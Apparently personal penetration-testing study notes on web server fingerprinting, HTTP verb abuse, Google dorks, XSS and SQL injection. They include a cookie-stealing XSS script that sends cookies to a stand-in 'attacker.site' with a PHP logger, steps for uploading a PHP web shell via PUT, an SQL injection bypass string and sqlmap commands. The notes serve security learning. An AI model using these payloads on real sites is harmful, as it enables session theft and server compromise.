# Web Server Fingerprinting

## 4.2.1 Fingerprinting wiht Netcat

- You can grab a banner using `netcat`:

```
nc <target address> 80
HEAD / HTTP/1.0
```

then hit enter 2 times (every HTTP request has 2 empty lines between the header and the body of the request, so when sending body-less requests we still have to append 2 empty lines)

## 4.2.1.1 Fingerprinting wiht Netcat Examples

- Here is a fingerprint of an apache server running on a debian machine:


## 4.2.2 Fingerprinting wiht OpenSSL

- While `netcat` can't be used to connect to HTTPs daemons, OpenSSL can
- `openssl` is a CLI to manually use various features of OpenSSL/TLS toolkit
- We can use it to connect to an HTTPs service and send the usual HEAD HTTP verb

```
openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

## 4.2.3 Limits of Manual fingerprinting

- Sysadmins can customize web servers banners to make fingerprinting activity harder for attackers
- Automatic tools go beyond banner grabbing. They fingerprint web servers by checking small implementation-dependent details such as: headers ordering in response messages, errors handling

## 4.2.4 Fingerprinting wiht Httprint

- `Httprint` is a web server fingerprinting tool that uses a signature-based techniques to identify web servers.
- The most used syntax is:

```
httprint -P0 -h <target hosts> -s <signature file>
```

- where:
    
    - `-P0` is used to avoid pinging the host
    - `-h` tells the tool to fingerprint a list of hosts
    - `-s` sets the signature file to use
- **Example**:
    



* * *

* * *

# HTTP Verbs

## 4.3 HTTP Verbs

- The most common HTTP methods are:
    - GET
    - POST
    - HEAD
    - PUT
    - DELETE

## 4.3.1 GET

- `GET` is used to request a resource. When a user wants to open a web page, the browser sends a `GET` request

```
GET /page.php HTTP/1.1
Host: www.example.site
```

- `GET` can also pass arguments to the web application

```
GET /page.php?course=PTS HTTP/1.1
Host: www.example.site
```

## 4.3.2 POST

- `POST` is used to submit HTML form data. `POST` parameters must be in the message body:

```
POST /login.php HTTP/1.1
Host: www.example.site

username=jhon&password=mypass
```

## 4.3.3 HEAD

- `HEAD` is very similar to `GET`, as it asks just headers of the response instead of the response body

```
HEAD / HTTP/1.1
Host: www.example.site
```

## 4.3.4 PUT

- `PUT` is used to upload a file to the server

```
PUT /path/to/destination HTTP/1.1
Host: www.example.site

<PUT data>
```

## 4.3.5 DELETE

- `DELETE` is used to remove a file from the server

```
DELETE /path/to/destination HTTP/1.1
Host: www.example.site
```

## 4.3.6 OPTIONS

- `OPTIONS` is used to query the web server for enabled HTTP Verbs

```
OPTIONS / HTTP/1.1
Host: www.example.site
```

## 4.3.6.1 REST APIs

- We should be aware of REST APIs (Representational State Transfer Application Programming Interface)
- Since these applications rely heavily on all HTTP Verbs, you can expect them to have subverted functionality
- It is common for such applications to use `PUT` for saving data and not for saving files
- During a penetration test, we should not confuse a RESET `PUT , DELETE` method which simply create / delete content, with a `PUT , DElETE` method that allows us to create / delete files

## 4.3.7 Using HTTP 1.0 Syntax

- Using HTTP 1.1 syntax implies also sending a `Host:` header in the request
- If we use HTTP 1.0 we can skip the `Host:` header

```
OPTIONS / HTTP/1.0
```

## 4.3.8.1 Enumeration with OPTIONS

- You can do that by sending an `OPTIONS` message using Netcat



## 4.3.8.2 Exploiting DELETE

- To exploit the `DELETE` verb, you just have to specify the file you want to delete from the server



## 4.3.8.3 Exploiting PUT

- To exploit `PUT`, you have to know the exact size of the file you want to upload in bytes, we can use `wc -m` to know that:



- After that, we can use the size we got to build the `PUT` message:



## 4.3.8.4 Uploading a PHP shell with PUT

- The following code is a small yet powerful PHP shell:



- We can then execute commands:



- This shell has the same permissions of the webserver it runs on, we can write a file:



- and maybe, we can read system files:



- Here is the `PUT` request:



## 4.3.9 Conclusions

- Misconfigured HTTP Verbs are becoming rare in web servers
- You can still find a lot of misconfigured HTTP methods in embedded devices, IP cameras, digital video recorders, and other "Smart" devices

* * *

* * *

# Direcories and Files Enumeration

## 4.4.3 Enumerating Web Resources with Dirbuster

- One of the most famous tools is **OWASP Dirbuster**
- **Dirbuster**'s linux alternative is called **Dirb**

* * *

* * *

# Google Hacking

## 4.5 Google Hacking

- For such things, **Google Dorks** are used
- Here are some useful search commands:
    - `site:` = only results on a given hostname
    - `intitle:` = filters according to the title of the page
    - `inurl:` = filters according to the url of the page
    - `filetype:` = filters according to the extention (.pdf or .docx ...)
    - `AND,OR,&,|` = logical operators to combine expressions
    - `-` = used to filter out a keyword or a command's result from the query

**Example:**



- The above example exclude from the search results common page extentions and look for open directory indexes containing txt, doc or pdf files
    
- A good book to read about this is [Google Hacking for Penetration Testers](http://www.amazon.com/Google-Hacking-Penetration-Testers-Johnny/dp/1597491764/ref=sr_1_1?ie=UTF8&qid=1302083660&sr=8-1) or the [Google Hacking Database by exploit-db](https://www.exploit-db.com/google-hacking-database)
    

* * *

* * *

# Cross Site Scripting

## 4.6 Cross Site Scripting

- **XSS** is a vulnerability that lets an attacker contorl some of the content of a web application
- By using **XSS** an attacker can:
    - Modify the content of the site at run-time
    - Inject malicious contents
    - Steal the cookies, thus the session of a user
    - Perform actions on the web app as if it was a legitimate user
    - much more!

## 4.6.1.1 Vulnerable Web Application

- **XSS** Vulnerabilities happen when a web app uses unfiltered user input to build the output content
- User Input could be:
    - Request header
    - Cookies
    - Form Input
    - POST parameters
    - GET parameters
- All of these input channels should be validated server side by well-implemented security functions
- The only way to prevent a cross-site scripting vulnerability is to never ever trever trust user input

## 4.6.2 Finding an XSS

- We look at every user input, and test if it is somehow displayed on the output of the web application
- After finding a reflection point, we have to understand if we can inject HTML code, sometimes it is just a matter of injecting harmless HTML tag like `<i>`, `<pre>` or `<plaintext>`
- To test the XSS, we can inject some valid HTML/Javascript code like:

```html
    <script>alert('XSS')</script>
```

- To exploit an XSS vulnerability that we find, we need to know the type: reflected, persistant or DOM based

## 4.6.3 Reflected XSS Attacks

- **Reflected Attacks** happen when the malicious payload is carried inside the request that the browser of the victim sends to the vulnerable website, they could be triggered by a link, when the user clicks the link, they trigger the attack

## 4.6.4 Persistent XSS Attack

- **Persistent XSS Attack** occur when the payload is sent to the vulnerable web server and then stored, then the malicious code gets delivered each time a web browser hits the "injected" web page
- The most common vector for persistent attacks are HTML forms that submit content to the web server and then display that content back to the users

## 4.6.5 Cookie Stealing via XSS

- Using the code below, we can send cookies content to an attacker-controlled site:

```html
<script>
    var i = new Image();
    i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

- The script generates an image object and points its `src` to a script on the attacker's server
- The browser cannot tell if the source is a real image, so it loads and execute the script even without displaying any image, then the cookie is sent to the attacker
- The `log.php` script saves the cookie is a text file on the attacer.site:
```php
<?php
	$filename="/tmp/log.txt";
	$fp=fopen($filename, 'a');
	$cookie=$_GET['q'];
	fwrite($fp, $cookie);
	fclose($fp);
?>
```

- `xsser` is the best tool (I think) for automating XSS Attacks

***

***

# SQL Injections

## 4.7 SQL Injections

- Structured Query Language **SQL** are used to interact with databases


## 4.7.1 SQL Statements

- A SQL Statement looks like the following:

```sql
SELECT name, description FROM products WHERE id=9;
```

- This queries the database asking for the `name` and the `description` of a record in the `products` table, and the selected record will have the id value equal to 9
- Basic syntax of a `SELECT` statement:

```sql
SELECT <column list>, FROM <table> WHERE <condition>;
```

- `UNION` command is used to perform a union between two results:

```sql
<SELECT statemen> UNION <another SELECT statemen>;
```

- For commenting, we can use either `#` or `--` to comment

## 4.7.3 Vulnerable Dynamic Queries

```sql
SELECT Name,Description FROM Products WHERE ID='$id';
```
- We can exploit the above query by crafting an `$id` value that can change the query to something like: `' OR 'a'='a`

- The Query then becomes:

```sql
SELECT Name,Description FROM Products WHERE ID='' OR 'a'='a';
```

- This tells the database to select the items by checking the ID (empty) `OR` an always true condition
- This tells the database to select all the items in the `Products` table

## 4.7.4 Finding SQL Injections

- To exploit SQL injection, you have to find the injection point by testing every supplied user input used by the web application
- When we talk about web app, user inputs are:
	- `GET` parameters
	- `POST` parameters
	- HTTP headers
		- User-Agent
		- Cookie
		- Accept
		- ...

- Testing an input for SQL injection means trying to inject:
	- String terminators: `' and "`
	- SQL commands: `SELECT`, `UNION` and others
	- SQL comments: `#` or `--`


## 4.7.7 SQLMAP

* The Basic Syntax is:
```
sqlmap -u <url> -p <injection parameter> [options]
```

* SQLmap could also go full automatic bu it could choose inefficient exploitation strategy or even crash the remote service
* **Example:**
```
sqlmap -u 'http://url.victim.site/view.php?id=1141' -p id --technique=U
```

This tells the tool to test the `id` parameter of the `GET` request for `view.php`, it also tells it to use a `UNION` based SQL injection technique

* If you have to exploit a `POST` parameter you have to use:

```
sqlmap -u <url> --data=<POST string> -p <parameter> [options]
```

you can also copy the POST string from a request intercepted by Burp

***
***